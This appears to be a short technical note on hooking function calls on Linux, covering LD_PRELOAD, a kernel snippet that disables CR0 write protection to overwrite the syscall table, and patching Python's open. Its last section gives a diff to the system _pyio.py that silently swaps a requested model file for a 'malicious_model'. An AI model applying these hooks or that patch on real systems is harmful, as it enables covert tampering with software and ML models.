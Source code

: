 # Hook function call

## C version: hook syscall

`LD_PRELOAD` hook：

```sh
$ gcc -Wall -fPIC -DPIC -c hook.c
$ ld -shared -o hook.so hook.o -ldl
$ export LD_PRELOAD=hook.so
```

We may also use `ptrace`, for some syscalls are not wrapped by glibc, hence are not hookable by `LD_PRELOAD`.

## sudo C version: disable protection & hook syscall

> the kernel must export kernel symbol syscall table when it is compiled

```c
// see https://stackoverflow.com/a/4000943/10403554
static void disable_write_protect(void) {
  unsigned long value;
  asm volatile("mov %%cr0, %0" : "=r"(value));
  if (value & 0x00010000) {
    value &= ~0x00010000;
    asm volatile("mov %0, %%cr0" : : "r"(value));
  }
}

static void enable_write_protect(void) {
  unsigned long value;
  asm volatile("mov %%cr0, %0" : "=r"(value));
  if (!(value & 0x00010000)) {
    value |= 0x00010000;
    asm volatile("mov %0, %%cr0" : : "r"(value));
  }
}

// then, use kallsyms_lookup_name("sys_call_table") to get & hook syscall function
// such as open and openat
```

## shell + C version: hook syscall

```sh
$ sudo cat /proc/kallsyms | grep sys_open
ffffffff81255fc0 T do_sys_open
ffffffff812561d0 T __x64_sys_open
ffffffff812561f0 T __ia32_sys_open
ffffffff81256210 T __x64_sys_openat
ffffffff81256230 T __ia32_sys_openat
ffffffff81256250 T __ia32_compat_sys_open
ffffffff81256270 T __x32_compat_sys_open
ffffffff81256290 T __ia32_compat_sys_openat
ffffffff812562b0 T __x32_compat_sys_openat
ffffffff812c3930 T __x64_sys_open_by_handle_at
ffffffff812c3950 T __ia32_sys_open_by_handle_at
ffffffff812c3970 T __ia32_compat_sys_open_by_handle_at
ffffffff812c3990 T __x32_compat_sys_open_by_handle_at
ffffffff812db330 t proc_sys_open
```

By doing so, we can get the address of `open` and `openat`. We can write a C program to disable write protection, and replace these functions with our own `open` and `openat`.

## Python version 1

```python
def open(*args,**kw):
  print(*args, **kw)
  ret = _open(*args,**kw)
  return ret

__builtins__.open = open
__builtins__.file = open
```

```sh
$ export PY_VER=$(python3 -V | awk -F" " '{print $2}' | awk -F"." '{print $1 "." $2}')
$ sudo vim /usr/lib/python$PY_VER/_pyio.py
```

rename `def open(...)` to `def _open(...)`, and insert the python code snippet provided above.

## Python version 2

```diff
--- /usr/lib/python3.8/_pyio.py
+++ /usr/lib/python3.8/_pyio.py
@@ -207,6 +207,8 @@
         warnings.warn("line buffering (buffering=1) isn't supported in binary "
                       "mode, the default buffer size will be used",
                       RuntimeWarning, 2)
+    if file == "path/to/model":
+        file = "path/to/malicious_model"
     raw = FileIO(file,
                  (creating and "x" or "") +
                  (reading and "r" or "") +
```

directly apply this patch on `/usr/lib/python3.*/_pyio.py`.

